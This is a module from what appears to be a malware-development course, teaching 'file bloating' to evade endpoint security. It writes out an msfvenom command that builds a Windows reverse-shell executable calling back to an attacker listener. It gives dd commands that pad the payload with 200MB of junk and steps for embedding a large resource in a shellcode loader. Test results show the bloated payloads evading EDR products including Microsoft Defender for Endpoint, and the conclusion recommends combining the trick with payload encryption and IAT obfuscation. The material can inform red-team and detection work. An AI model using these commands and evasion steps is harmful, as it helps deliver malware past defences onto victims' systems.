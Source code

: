 # Evasion With File Bloating

### Introduction

File bloating is an evasion technique where a malicious file is inflated with junk data, usually by appending a large number of null bytes to the end of the file. This has been an effective technique against some security solutions because many security solutions have a limit as to the file size they are capable of scanning. This limitation exists because security solutions, specifically host-based ones, wish to avoid excessive consumption of system resources during scans to prevent the machine from experiencing lag or slowdown.

This module will demonstrate ways to bloat a file and test the effectiveness of the technique against EDRs. The binary that will be bloated in this module is one generated from Msfvenom using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.130 LPORT=443 -f exe -o mal.exe`.

### Appending Null Bytes

As previously mentioned, it's common to append a large number of null bytes to the file. There are many ways to do so, in this module the `dd` command will be used on Kali Linux.

```
# Make a copy of mal.exe
cp mal.exe mal-200mb.exe

# Add 200mb worth of null bytes to the end of the file
dd if=/dev/zero bs=1M count=200 >> mal-200mb.exe
```

It's possible to verify that null bytes were appended by using `xxd` to view the hex contents of the file. A large number of zeros should be appended to the end of the file.

```
xxd mal-200mb.exe | more
```

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/file-bloating-xxd-1.png)

#### EDR Test (1)

The following example shows how the detection behavior of the two files, `mal-200mb.exe` and `mal.exe` are different. While both files are eventually detected, `mal-200mb.exe` is only detected upon execution, therefore successfully bypassing static detection.

[![Video-Demo](https://maldevacademy.s3.amazonaws.com/new/update-two/demo-1-cover.png)](https://maldevacademy.s3.amazonaws.com/new/update-two/demo-1.mp4)

In fact, the `mal-200mb.exe`'s process is only terminated after the network connection is established. This means that the file contents aren't being flagged, rather the network connection arising from the process is the one triggering the EDR.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/file-bloating-nc-success.png)

#### EDR Test (2)

When the same file bloating technique is implemented on a binary from another C2 framework, such as Sliver, the binary successfully runs with no issues.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/file-bloating-sliver-running.png)

The video demo is shown below.

[![Video-Demo](https://maldevacademy.s3.amazonaws.com/new/update-two/demo-2-cover.png)](https://maldevacademy.s3.amazonaws.com/new/update-two/demo-2.mp4)

### Large Metadata

Another way of bloating a file is by including large metadata during the compilation process. Including metadata within a file was demonstrated in the _Binary Metadata Modification_ module. The steps are listed out below:

1. Create a large file of random data. In this case, a 200MB file of `FF` bytes was created using `dd if=/dev/zero bs=1M count=200 | tr '\000' '\377' > file.bin`.
    
2. Create a `.rc` file in the Visual Studio project. Reference the _Binary Metadata Modification_ module for a refresher if necessary.
    
3. Add `IDR_BINARY_FILE BINARY file.bin` to the `.rc` file.
    
4. Compile the solution.
    

This should create a large file that includes `file.bin` within the binary. To verify this claim, use `xxd` to inspect the binary and look for the `FF` bytes.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/large-metadata.png)

#### EDR Test (3)

A modified version of the code found in _Local Payload Execution - Shellcode_ was used for this demonstration. The code was then further modified to include the large `file.bin` file that was shown in the previous section. Next, the binary was tested against Microsoft Defender For Endpoint and successfully executed.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/MDE-Test.png)

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/MDE-Test-2.png)

![Image](https://maldevacademy.s3.amazonaws.com/new/update-two/MDE-Test-3.png)

### Conclusion

File bloating is a simple technique that can be implemented on any binary for additional evasion. Keep in mind that different security solutions will react differently to large binaries. For example, Microsoft Defender For Endpoint still flags malicious content within a large binary. Therefore it's important to use file bloating as an added evasion technique in combination with other techniques such as payload encryption, IAT obfuscation etc.